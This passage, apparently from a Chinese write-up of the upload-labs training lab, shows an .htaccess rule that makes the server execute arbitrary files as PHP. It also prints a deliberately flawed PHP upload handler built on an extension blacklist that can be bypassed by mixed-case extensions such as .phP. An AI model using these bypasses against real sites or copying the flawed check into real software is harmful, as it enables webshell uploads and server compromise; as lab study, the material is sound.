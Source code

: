 **绕过方式**

**上传`.htaccess` 静态规则让web容器把任意文件解析成PHP脚本文件**

```
<FilesMatch "fx">
SetHandler application/x-httpd-php
</FilesMatch>
```



演示地址：Pass-04/index.php


#### 06后缀名黑名单校验之利用大小写绕过

还是黑名单，但是这次把`.htaccess`也限制了

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

**绕过方式**

**在burp里改包，把文件名改成`.phP` 利用大小写绕过检测**

演示地址：Pass-05/index.php
